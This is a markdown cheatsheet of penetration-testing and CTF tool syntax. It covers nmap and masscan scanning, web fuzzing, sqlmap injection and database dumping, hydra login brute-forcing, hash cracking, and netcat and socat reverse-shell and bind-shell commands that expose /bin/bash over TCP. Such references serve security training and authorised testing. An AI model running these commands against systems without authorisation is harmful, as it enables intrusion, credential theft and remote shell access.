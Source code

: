
# 🛠️ Tool Syntax Cheatsheet  
*"A tool is only as good as the hacker who wields it." - CTF Sage*

## 🔎 Reconnaissance Tools

### Nmap – Network Scanning
```bash
nmap -sV -T4 <IP>                   # Service/version scan
nmap -p- <IP>                       # Full port scan (1–65535)
nmap -A -T4 <IP>                    # Aggressive scan (OS + scripts)
nmap -sU -p 53,161 <IP>             # UDP scan (example: DNS, SNMP)
nmap -Pn -n <IP>                    # Skip host discovery + DNS
```

### Masscan – Fast Port Scanner
```bash
masscan <IP> -p1-65535 --rate=1000  # Full TCP scan with throttle
```

## 🌐 Web Enumeration

### FFUF – Fuzzing URLs/Parameters
```bash
ffuf -w wordlist.txt -u http://<IP>/FUZZ -mc 200
ffuf -w words.txt -u http://<IP>/page.php?id=FUZZ -fs 0
```

### Gobuster – Directory Bruteforcing
```bash
gobuster dir -u http://<IP> -w common.txt -x php,txt,html -t 50
gobuster dns -d domain.com -w subdomains.txt
```

### Nikto – Web Vulnerability Scanner
```bash
nikto -h http://<IP>                # Basic scan
```

## 🧪 Web Exploitation

### SQLMap – SQL Injection
```bash
sqlmap -u "http://<IP>/page?id=1" --batch --risk=3
sqlmap -r request.txt --dbs        # Use request file with headers
sqlmap -u <url> --dump-all         # Dump all databases
```

### Hydra – Bruteforce Login Forms
```bash
hydra -l admin -P rockyou.txt <IP> http-post-form \
"/login.php:user=^USER^&pass=^PASS^:F=incorrect"
hydra -L users.txt -P passwords.txt ssh://<IP>
```

## 🔑 Cracking & Hashing

### John the Ripper
```bash
john --wordlist=rockyou.txt hash.txt
john --format=raw-md5 hash.txt
john --show hash.txt                # Show cracked passwords
```

### Hashcat – GPU-Accelerated Cracking
```bash
hashcat -m 0 -a 0 hash.txt rockyou.txt      # MD5
hashcat -m 1000 -a 0 hash.txt rockyou.txt   # NTLM
hashcat -m 1800 -a 0 hash.txt rockyou.txt   # sha512crypt
```

### HashID – Identify Hash Types
```bash
hashid "$1$O3JMY.Tw$AdLnLjQ/5jXF9..."
```

## 🐚 Shell Access & Interaction

### Netcat (nc)
```bash
nc -nvlp 4444                        # Listen for reverse shell
nc <IP> 4444                         # Send a shell
rlwrap nc -nvlp 4444                 # With readline support
```

### Socat
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
socat FILE:`tty`,raw,echo=0 TCP:<IP>:4444
```

## 📦 Enumeration & Discovery Tools

### Enum4linux – SMB Enumeration
```bash
enum4linux -a <IP>
```

### SMBclient – Connect to SMB Shares
```bash
smbclient //IP/share -U anonymous
```

### Wfuzz – Parameter & Auth Fuzzing
```bash
wfuzz -c -z file,wordlist.txt --hc 404 http://<IP>/FUZZ
```

## ⚙️ Wordlist Helpers

### CeWL – Custom Wordlist Generator
```bash
cewl http://site.com -w wordlist.txt
```

### Crunch – Custom Wordlist Generator
```bash
crunch 4 6 abc123 -o wordlist.txt   # 4–6 char words with abc123
```

## 🧰 Tool Installation (Debian/Ubuntu)
```bash
sudo apt install nmap ffuf gobuster sqlmap hydra \
john hashcat enum4linux smbclient seclists rlwrap
```

---

## 🔁 Bonus Tips

### Combine tools for better intel
```bash
nmap -p 80 <IP> --script=http-title
ffuf -w common.txt -u http://<IP>/FUZZ -mc 200 -o ffuf.json
```

### Use Seclists for wordlists
```bash
/usr/share/seclists/Discovery/Web-Content/common.txt
```

---

💡 *“Master the tools, but never forget the fundamentals.”*
